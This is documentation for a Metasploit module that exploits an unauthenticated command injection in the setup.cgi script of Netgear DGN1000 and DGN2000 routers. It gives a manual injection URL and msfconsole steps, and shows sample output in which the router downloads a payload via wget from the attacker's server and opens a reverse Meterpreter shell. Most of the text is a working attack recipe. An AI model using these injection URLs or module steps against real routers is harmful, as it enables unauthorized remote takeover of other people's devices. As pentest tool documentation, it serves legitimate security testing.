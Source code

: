 The module netgear_dgn1000_setup_unauth_exec exploits an unauthenticated OS command injection vulnerability in vulnerable Netgear DGN1000 with firmware versions up to `1.1.00.48` in addition to DGN2000v1 models, all firmware versions. The vulnerability occurs in within the `syscmd` function of the `setup.cgi` script to execute arbitrary commands. Manual exploitation could be completed through the browser, as for example : `http://<RouterIP>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=echo+vulnerable&curpath=/&currentsetting.htm=1`. Such example will return "vulnerable" on the page. Vulnerable models have `wget` installed on `/usr/bin/wget` and can be leveraged to drop a MIPS Big Endian payload.

## Vulnerable Application

Netgear DGN1000 with firmware versions up to `1.1.00.48` and DGN2000v1 models

## Verification Steps

  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_dgn1000_setup_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD [payload]`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session

## Scenarios

Sample output of a successful exploitation should be look like this :

```
msf > use exploit/linux/http/netgear_dgn1000_setup_unauth_exec
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(netgear_dgn1000_setup_unauth_exec) > set LHOST eth0
LHOST = eth0
msf exploit(netgear_dgn1000_setup_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(netgear_dgn1000_setup_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:4444
[*] 192.168.0.1:80 - Connecting to target...
[*] 192.168.0.1:80 - Exploiting target ....
[*] Using URL: http://0.0.0.0:8080/DnuJhOHYg7auIz
[*] Local IP: http://192.168.0.11:8080/DnuJhOHYg7auIz
[*] Client 192.168.0.1 (Wget) requested /DnuJhOHYg7auIz
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (1073332 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.11:4444 -> 192.168.0.1:51558) at 2017-10-20 20:37:06 -0400
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 2.6.20-Amazon_SE)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```


